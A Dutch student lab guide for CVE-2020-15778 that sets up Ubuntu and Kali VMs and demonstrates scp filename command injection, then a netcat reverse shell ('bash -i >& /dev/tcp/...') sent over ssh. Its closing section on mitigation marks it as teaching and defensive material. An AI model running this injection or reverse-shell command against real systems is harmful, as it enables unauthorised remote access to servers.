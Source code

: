 # NPE Cybersecurity and virtualisation | CVE-2020-15778

Gilles De Meerleer, Yana Cattoir en David Bukasa Ntunu

## Opzetten van de omgeving

In deze handleiding wordt uitgelegd hoe je de omgeving voor het project kunt opzetten. De omgeving wordt opgezet met behulp van Vbox manage.

## Stap 1: Download de benodigde software en bestanden

1. Download de Ubuntu server VDI (20.04.4) van OSboxes <https://sourceforge.net/projects/osboxes/files/v/vb/59-U-u-svr/20.04/20.04.4/64bit.7z/download> en de Kali VDI (2024.4) <https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2024.4/64bit.7z/download>

2. Pak deze zips uit en plaats de VDI's in een map naar keuze. Voor het gemak kun je de VDI's in de map van VirtualBox VMs plaatsen.
   Deze staat standaard in `C:\Users\gebruikersnaam\VirtualBox VMs`.

3. Kopieer het pad naar de map waarin je de VDI hebt geplaatst. In Windows kun je dit eenvoudig doen door de VDI te selecteren en op Ctrl + Shift + C te drukken. Dit kopieert het pad naar het bestand.

4. Daarnaast heb je de `src` map van deze repository nodig. Deze map bevat alle configuratiebestanden die nodig zijn om de omgeving op te zetten. Maak dus een clone van deze repository.

## Stap 2: Pas de variabelen aan in de scripts "server-setup.ps1" en "kali-setup.ps1"

Om de scripts te kunnen gebruiken, moet je de volgende variabelen aanpassen:

```powershell
$mediumLocation = "C:\Users\gille\VirtualBox VMs\Ubuntu Server 20.04.4 (64bit).vdi"  # Pad waar de virtuele schijf wordt opgeslagen
```

## Stap 3: Voer de scripts uit

Eens alle paden zijn ingesteld, kun je de scripts uitvoeren.

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process # Enkel nodig als je een beveiligingsfout krijgt
.\server-setup.ps1
.\kali-setup.ps1
```

De scripts zullen nu de omgeving opzetten. Dit kan enkele minuten duren.

Log in op de VM's met de volgende gegevens:

username: `osboxes`
password: `osboxes.org`

```bash
# Intaller nu ssh op de server
sudo apt update
sudo apt install openssh-server
sudo systemctl enable --now ssh

# Vraag het ip adres op van de server
ip a
```

Verbind nu vanaf je host machine met de server via ssh. Dit kan met de volgende opdracht:

```bash
ssh osboxes@<ip-adres-van-server>
```

Kopieer het installatie script "install.sh" naar de server met scp of WinSCP (pas het ip adres aan naar het ip adres van de server):

```bash
scp install.sh osboxes@192.168.0.226:/home/osboxes
```

Controlleer of het script goed is aangekomen met de volgende opdracht:

```bash
osboxes@osboxes:~$ ls
install.sh
```

Maak het script uitvoerbaar met de volgende opdracht:

```bash
chmod +x install.sh
```

Voer het script uit met de volgende opdracht:

```bash
sudo ./install.sh
```

## Cheat sheet voor de aanval

Stap 1: Controleer of de VM's met elkaar kunnen communiceren

```bash
ping 192.168.0.226
PING 192.168.0.226 (192.168.0.226) 56(84) bytes of data.
64 bytes from 192.168.0.163: icmp_seq=1 ttl=64 time=16.1 ms
64 bytes from 192.168.0.163: icmp_seq=2 ttl=64 time=7.04 ms
64 bytes from 192.168.0.163: icmp_seq=3 ttl=64 time=7.80 ms
64 bytes from 192.168.0.163: icmp_seq=4 ttl=64 time=7.78 ms
64 bytes from 192.168.0.163: icmp_seq=5 ttl=64 time=8.33 ms
```

SCP command injection

```bash
scp test.txt osboxes@192.168.0.226:/tmp/$(echo hello)

osboxes@192.168.0.163's password:
test.txt                                                                                                                                                   100%    0     0.0KB/s   00:00
```

Resultaat: er verschijnt een bestand hello op de server in /tmp, aangemaakt door de injectie.

```bash
osboxes@osboxes:/tmp$ ls
hello
```

## Reverse shell via netcat

We kunnen nog een beetje verdergaan en een reverse shell opstarten via netcat. Dit doen we door misbruik te maken van de command injection in ssh.

Start een netcat listener op de aanvaller machine

```bash
nc -lvnp 4444
```

Reverse shell via SSH

```bash
ssh osboxes@192.168.0.226 'bash -i >& /dev/tcp/192.168.0.121/4444 0>&1'
```

De reverse shell is nu geopend in het terminal venster waar de listener draait. Je kunt nu commando's uitvoeren op de server via de reverse shell.

## Hoe werkt het?

- SCP werkt door een commando scp -t <bestandsnaam> uit te voeren op de remote host om bestanden te ontvangen.

- De bestandsnaam wordt niet gesanitiseerd waardoor shell-injectie via backticks of $(...) mogelijk is.

- Dit is een authenticated exploit: je moet wel over geldige SSH-credentials beschikken.

## Waarom is het belangrijk om je servers te beschermen?

- Veel systemen gebruiken SCP nog steeds voor bestanden overzetten.

- Kwaadwillenden met toegang kunnen zo eenvoudig commando’s uitvoeren op de server.

- OpenSSH adviseert over te stappen op veiligere alternatieven zoals rsync of sftp.